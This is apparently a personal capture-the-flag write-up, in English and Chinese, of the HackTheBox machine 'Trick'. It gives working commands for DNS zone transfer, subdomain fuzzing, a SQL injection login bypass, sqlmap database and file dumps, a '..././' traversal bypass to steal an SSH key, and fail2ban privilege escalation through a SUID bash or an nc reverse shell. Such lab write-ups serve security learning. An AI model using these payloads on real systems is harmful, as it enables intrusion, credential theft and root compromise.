





# Trick

## Recon

### nmap Result

```
nmap -sS -sC -sV -O 10.10.11.166
```
```指令解說
-sS    TCP同步掃描(TCP SYN)，因為不必全部打開一個TCP連接配接，是以這項技術通常稱為半開掃描(half-open)。這項技術最大的好處是，很少有系統能夠把這記入系統日志。不過，你需要root權限來定制SYN資料包
-sC    相當於 --script=default
-sV    掃描服務端口、名稱和版本
-O     掃描主機OS
```


### gobuster 遍歷網站目錄

``` 
gobuster dir -u 10.10.11.166 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```


### Nikto 弱掃工具

```
nikto -host 10.10.11.166
```


- result 
    1. nginx server 1.14.2 
        - Default config file : ```/etc/nginx/nginx.conf```
    2. Required Security Headers are already set up.

### Domain

- According to past experience, guessing the domain is ```trick.htb```
- so, modify ```/etc/hosts``` set ip ```10.10.11.166``` correspond to domain ```trick.htb```


### DNS Information

- Since the nmap result shows that the port 53 is open with bind library.
- I think the DNS is up in this server
- so use ```dig``` to get more DNS information.

#### Banner Grabbing

- Since the DNS is build wiht Bind in Linux.
- DNS does not have a "banner" to grab. 
- The closest equivalent is a magic query for ```version.bind.``` ```CHAOS TXT``` which will work on most BIND nameservers.
- Try the following command :

```
dig version.bind CHAOS TXT @10.10.11.166
```


#### DNS that resolves that name
``` dig nx trick.htb @10.10.11.166 ```


#### Emails related
``` dig mx trick.htb @10.10.11.166 ```


#### Zone Transfer
``` dig axfr trick.htb @10.10.11.166 ```


``` dig all trick.htb @10.10.11.166 ```


#### Result

In this part, I focus on gathering information from DNS.
I use 'dig' to gathering information as enough as possible.
Here is some useful information after I organize the result:
1. nmap find port 53 --> DNS Server
2. Check DNS to find another subdomain
    - ```preprod-payroll.trick.htb```
    - ```root.trick.htb```
3. Next part, I will check the subdomain in browser to find expoloit entry point and gathering other information.


- Find one subdomain direct to a login site


### Fuzzing Tools : ffuf

- Using fuzzing tool to check is there any other subdomain.

Sample
```
ffuf -u https://example.org/FUZZ -w /path/to/wordlist
```
- ffuf using ```FUZZ``` as the variable which means the position needs to be fuzzing.
- Using default wordlist(```/usr/share/seclists```)


- Research about the ffuf tool.


- Since I focus on subdomain in this time, so I use DNS wordlist.(```/usr/share/seclists/Discovery/DNS```) 
### Start to fuzz

```
ffuf -u http://trick.htb -w /usr/share/seclists/Discovery/DNS/subdomain-top1million-5000.txt -H "Host: FUZZ.trick.htb"
```
- There are too many error result show up.
- according to the result list, if the fuzz failed, the response words are always 1697.


- So set up as filter.
(```-fw``` uses to filter the word with a value.)
```
ffuf -u http://trick.htb -w /usr/share/seclists/Discovery/DNS/subdomain-top1million-5000.txt -H "Host: FUZZ.trick.htb" -fw 1697
```
- No results XD


- Change the URL to fuzz (```from FUZZ.trick.htb ``` to ``` preprod.FUZZ.trick.htb```) 
```
ffuf -u http://trick.htb -w /usr/share/seclists/Discovery/DNS/subdomain-top1million-5000.txt -H "Host: preprod-FUZZ.trick.htb" -fw 1697
```
- Get a result : ```preprod-marketing.trick.htb```


- 把 DNS 上找到的subdomain部分設定到 ```/etc/hosts```中


- Check ```root.trick.htb```
- 似乎跟 ```trick.htb ``` 一樣


- Access ```preprod-payroll.trick.htb```
- Redirect to login page


- Access to ```preprod-marketing.trick.htb```


### Start to gathering from new page

- Start from ```preprod-payroll``` login page
- Try the following account pair, but all fail.
    - admin / admin
    - root / root


## Exploit

From this section, I start to do exploit to web page.
and first, try SQL injection for login page, and I found the sql injection in login page.
- So try sqli, like
```admin' OR 1=1--```
- but the response will show 
    - a error message : <p>Notice: Trying to get property 'num_rows' of non-object in /var/www/payroll/admin-class.php</p> 
    - a value ```3```
    
    
    
    
- With following payload, it will response value with 1, it might means login successful.
```admin' OR 1=1-- ``` (add an empty in the last of the payloads.)


- Try it on web applpication, then I log in.


- It is a management site for recruitment.
- Home


- Attendance


- Payroll List


- Employee List


- Department List


- Position List


- Allowance List 


- Deducation List


- Users


### 弱掃工具 - nikto

```nikto -host preprod.trick.htb```


- No any useful information.
### subdomain Information Gathering 

#### XSS 

- In Department management page
```
http://preprod-payroll.trick.htb/index.php?page=department
```


- In Poisition Management Page
```
http://preprod-payroll.trick.htb/index.php?page=position
```


- Allowances List
```
http://preprod-payroll.trick.htb/index.php?page=allowances
```


- Deducations List
```
http://preprod-payroll.trick.htb/index.php?page=deductions
```




#### SQLi

- 經過對 admin management page 的檢查
- Intercept the 'save_user' request by Burp


- Save the Request to file


- Intercept the 'save_employee' Request by Burp


- Save the request to file


### SQLmap

- Through sql map tp Exploit to get the Database information 
```
# sqlmap -r adduser_req.txt --dbms mysql --batch --thread 10 -dbs
```


- Got the DB name:
    1. payroll_db
    2. information_schema


- Get the current user information by SQLmap
```
# sqlmap -r adduser_req.txt --dbms mysql --batch --thread 10 --current-user
```
- The current user result is : ```remo@localhost```


- Get the table infromation by SQLmap
```
# sqlmap -r adduser_req.txt --batch --dbms mysql --tgread 10 -D payroll_db --tables
```


- The table informatino as follow:
    1. position
    2. allowances
    3. attendance
    4. deductions
    5. department
    6. employee
    7. employee_allowances
    8. employee_deductions
    9. payroll
    10. payroll_items
    11. users


- Get user table's column name
```
# sqlmap -r adduser_req.txt --dbms mysql --thread 10 -D payroll_db -T users --columns
```

- Result of columns


- Dump the user table's data

```
sqlmap -r /home/kali/Desktop/HTB/Trick/addmember_req.txt --batch --dbms mysql --threads 10 -D payroll_db -T users -C id, name, password, username --dump
```


- We find that there is only 1 data, and it also can be found in the admin user management page.


- Try to read the hostname by SQLmap
```
sqlmap -r /home/kali/Desktop/HTB/Trick/addmember_req.txt --batch --dbms mysql --threads 10 --file-read=/etc/hostname
```


- The result will store in ```/root/.local/share/sqlmap/output/<target domain/files/<target file>```


- Try to read ```/etc/passwd```

```
sqlmap -r /home/kali/Desktop/HTB/Trick/addmember_req.txt --batch --dbms mysql --threads 10 --file-read=/etc/passwd
```

- Check the result file in local.


- Check the ```/etc/passwd``` content, and find the user who has login and has run with ```/bin/bash``` 
- Get the user michael

- Using same payload to read other file in victim system.
- Check ```/etc/nginx/nginx.conf``` 


- Found the sites-enabled include in this web server
- nginx sites enabled 下預設檔案名稱 -> default


- 檢查拉回的 ```sites-enabled/default``` 檔案
```cat _etc_nginx_sites-enabled_default```
- 原本trick 站台對應的目錄: ```/var/www/html```


- 子網域 preprod-market 對應 : ```/var/www/html```
- 子網域preprod-payroll 對應: ```/var/www/payroll```


#### Directory Traversal 

- 同樣藉由 sqlmap 攻擊該站台sql injection 問題的方式找到
```/var/www/market/index```  file 
- 對 index 的內容進行 code review 
- 裡面有一段針對 Directory Traversal 的過濾，主要是過濾```../``` 以防止在URL 能透過```../```移動並讀取到其他目錄的檔案
- 這裡過濾的規則是把```../``` 取代成空白
- 此外，index 裡面也明確地指出market index 下 GET method 接受一個名為 page 的參數


- 先對page 參數嘗試正常的跳脫，嘗試讀取```/etc/passwd```
- 結果如下圖，不會有任何資料回應


- Intecept request with burp 


- 根據 ```index.php``` 中過濾的狀況進行繞過
payload : ```..././..././..././..././etc/passwd  ```
- 透過這個payload，當過濾程式把```../``` 變成空白後會形成新的且能夠被使用的```../```


- 因為前面 nmap 的結果得知這裡有開ssh 服務
- 既然可以讀取任意檔案，嘗試找找有沒有ssh private key 並讀取出來
- 前面讀取的```/etc/passwd```內容知道有個 michael 的使用者

```
..././..././..././..././home/michael/.ssh/id_rsa
```


### SSH 

- touch ```id_rsa```


- Copy the ssh private key of michael to id_rsa 


- Check the file permission and Change the the file permission of id_rsa

```chmod 600 id_rsa```


- Check it's file permission again


- ssh connect to victim server 
```ssh -i id_rsa michael@10.10.11.166```


- Get User Flag 



## Post Exploitation
### Information Gathering in Victim Server
- Check the information in victim server

```hostname```


```id```


```sudo -l```


#### Fail2ban
- Find that restart fail2ban service without password should use root permission.
- The fail2ban service originally needs the root permmission.
- So, I think that is a clue for privilege escalation, do some research for it. 
[This Article](https://grumpygeekwrites.wordpress.com/2021/01/29/privilege-escalation-via-fail2ban/)
- First, Check the fail2ban is running


- according to the article, I know the fail2ban can use with iptables to handle multiport.
- Let's check about this setting. 
- The directory of fail2ban is ```/etc/fail2ban```


- There is action.d folder which has different types of configuration rules that can be applied for blocking an IP.


- About the multiport action, let's take look at ```iptables-multiport.conf```


- There are two things **actionban** and **actionunban**. If we have write access to this file, we can add our malicious command and escalate our privileges.
- Try to Edit the file


- Edit the actionban to execute the bash
```
chmod u+s /bin/bash
```

OR
```
/usr/bin/nc 10.10.14.47 9999 -e /usr/bin/bash
```

- Execute the following command to brute force the ssh, it will triger banaction in fail2ban ```(It's ok to choose any wordlists)```

```
patator ssh_login host=trick.htb user=FILE0 password=FILE1 0=/usr/share/seclists/Username/CommonAdminBase64.txt 1=/usr/share/seclists/Password/2020-200_most_used_password.txt
```


- Restart the fail2ban (It has to execute with SUDO but password no need)
```
sudo /etc/init.d/fail2ban restart
```


### Two Scenario for Escalation
#### First. Use chmod u+s /bin/bash
- The Origin file owner for ```/bin/bash```


- The file owner for ```/bin/bash``` after changed by fail2ban


- SUID escalate privilege 


- So let's try to use ```bash -p``` to get the root permission
- Check the ```id``` command


- Get root flag : ``` 8e09ad2f8777257f23de0d9d17afb36f7 ```


#### Second. Use nc to get reverse shell
- Listen port 9999 on local

```
nc -nlvp 9999
```

- After restart fail2ban and the ssh brute force keep attacking
- The nc will get the shell


- Check user group :  ```id ```


- Change directory to ```root```


- Check Directory


- Get root flag : ``` 8e09ad2f8777257f23de0d9d17afb36f7```


## Reference 

- [(HackTrick)Pentesting DNS](https://book.hacktricks.xyz/network-services-pentesting/pentesting-dns#config-files)
- [邁向 RHCE 之路 (Day25) - DNS(Domain Name Service)](https://ithelp.ithome.com.tw/articles/10080493)
- [DNS原理及其解析过程](https://michaelyou.github.io/2015/03/19/DNS%E5%8E%9F%E7%90%86%E5%8F%8A%E5%85%B6%E8%A7%A3%E6%9E%90%E8%BF%87%E7%A8%8B/)
- [DNS Basics](https://sushant747.gitbooks.io/total-oscp-guide/content/dns_basics.html)
- [UDP Scan Using nmap](https://www.utc.edu/sites/default/files/2021-04/4660-lab2.pdf)
- [SecLists Usage Examples](https://www.kali.org/tools/seclists/)
- [UNIX SSH Files](https://www.msri.org/realvideo/ln/msri/usered/ssh/bernstein/1/7.html)
- [How to Login to SSH Without A Password Using Private Key?](https://www.linuxfordevices.com/tutorials/linux/login-to-ssh-without-a-password-private-key)
- [(Github)ffuf](https://github.com/ffuf/ffuf)
- [ffuf：Go語言編寫的高速Web Fuzzer](https://www.gushiciku.cn/pl/2FPe/zh-tw)
- [fuff工具使用場景整理](https://chowdera.com/2021/12/20211205165601533j.htm)
- [GTFOBins](https://gtfobins.github.io/gtfobins/bash/)
- [(write up)(Video)HackTheBox Trick Writeup](https://www.youtube.com/watch?v=zDf2hpCu7D0)
- [(Privilege Escalation)Abusing Fail2ban misconfiguration to escalate privileges on Linux](https://youssef-ichioui.medium.com/abusing-fail2ban-misconfiguration-to-escalate-privileges-on-linux-826ad0cdafb7)
- [(Privilege Escalation)Privilege Escalation via fail2ban](https://grumpygeekwrites.wordpress.com/2021/01/29/privilege-escalation-via-fail2ban/)
- [(Information)Privilege Escalation](https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_-_linux.html)
- [Linux Privilege Escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation)
- [Awesome Penetration Testing ](https://github.com/Muhammd/Awesome-Pentest#vulnerability-scanners)
- [How to use SQLMAP to test a website for SQL Injection vulnerability](https://www.geeksforgeeks.org/use-sqlmap-test-website-sql-injection-vulnerability/)
- [(Error Research)Notice – trying to get property num_rows of non-object in php](https://codingstatus.com/notice-trying-to-get-property-num-rows-of-non-object-in-php/)
- [实战：基于域名的虚拟主机](https://skyao.gitbooks.io/learning-nginx/content/configure/vhost/action_domian.html)

###### tags: `HackTheBox` `SQL Injection` `SQLi` `sqlmap` `linux`